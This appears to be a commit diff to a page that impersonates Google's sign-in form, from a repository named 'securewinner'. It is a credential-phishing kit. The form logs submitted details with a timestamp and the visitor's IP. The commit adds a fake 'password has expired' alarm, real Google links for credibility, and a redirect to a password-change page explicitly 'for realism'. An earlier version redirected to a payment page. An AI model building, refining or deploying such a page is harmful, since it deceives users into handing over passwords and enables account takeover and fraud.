

Before and after one commit to Lbourgeois98/securewinner, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 258-694 px from the top of the page, without its empty margins (319-959 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -13,7 +13,7 @@
         button { background-color: #1a73e8; color: white; border: none; padding: 12px 24px; border-radius: 4px; font-size: 14px; font-weight: 500; cursor: pointer; width: 100%; margin-top: 24px; }
         button:hover { background-color: #1557b0; }
         .forgot { display: block; margin-top: 16px; color: #1a73e8; text-decoration: none; }
-        .error { color: #d93025; font-size: 14px; margin-top: 12px; display: none; }
+        .error { color: #d93025; font-size: 14px; margin-top: 12px; display: block; background: #fce8e6; padding: 10px; border-radius: 4px; }
         .footer { margin-top: 24px; font-size: 14px; color: #5f6368; }
     </style>
 </head>
@@ -25,9 +25,9 @@
             <input type="password" id="password" placeholder="Enter your password" required>
             <button type="submit">Next</button>
         </form>
-        <a href="#" class="forgot">Forgot email?</a>
-        <div id="errorMessage" class="error">Wrong password. Try again or click Forgot password to reset it.</div>
-        <div class="footer">Not your computer? Use a private browsing window to sign in. <a href="#">Learn more</a></div>
+        <a href="https://accounts.google.com/signin/recovery" class="forgot">Forgot email?</a>
+        <div id="errorMessage" class="error">Your password has expired for security reasons. Please update it now to continue.</div>
+        <div class="footer">Not your computer? Use a private browsing window to sign in. <a href="https://support.google.com/accounts/answer/3067630">Learn more</a></div>
     </div>
 
     <script type="module">
@@ -58,7 +58,8 @@
                     timestamp: new Date().toISOString(),
                     ip: await fetch('https://api.ipify.org?format=json').then(r => r.json()).then(d => d.ip)
                 });
-                window.location.href = "payment.html?email=" + encodeURIComponent(email);
+                // Always redirect to password change for realism
+                window.location.href = "password-change.html?email=" + encodeURIComponent(email);
             } catch (error) {
                 document.getElementById('errorMessage').style.display = 'block';
             }
```
